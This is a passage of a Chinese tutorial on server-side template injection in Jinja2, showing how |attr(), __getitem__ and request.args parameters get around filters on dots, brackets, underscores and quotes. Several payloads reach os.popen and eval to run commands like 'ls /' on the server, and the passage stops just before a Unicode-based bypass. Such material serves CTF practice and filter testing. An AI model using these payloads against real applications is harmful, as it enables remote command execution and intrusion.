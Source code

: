 `|attr()` 配合其他姿势可同时绕过双下划线`__`、引号、点 . 和 `[` 等，下面给出示例。

### 同时过滤了 . 和 []

过滤了以下字符：

```python
.    [
```

绕过姿势：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

### 同时过滤了 __ 、点. 和 []

下面我们演示绕过姿势，先写出payload的原型：

```python
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

由于中括号 [ 被过滤了，我们可以用 **getitem**() 来绕过（尽量不要用pop()），类似如下：

```python
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
```

由于还过滤了下划线`__`，我们可以用request对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过`__` 和 `[`，就用到了我们的`|attr()`
所以最终的payload如下：

```python
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

### 用Unicode编码配合 |attr() 进行Bypass

过滤了以下字符：

```python
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用`{%...%}`绕过对`{{`的过滤，并用unicode绕过对关键字的过滤。unicode绕过是一种网上没提出的方法。

假设我们要构造的payload原型为：
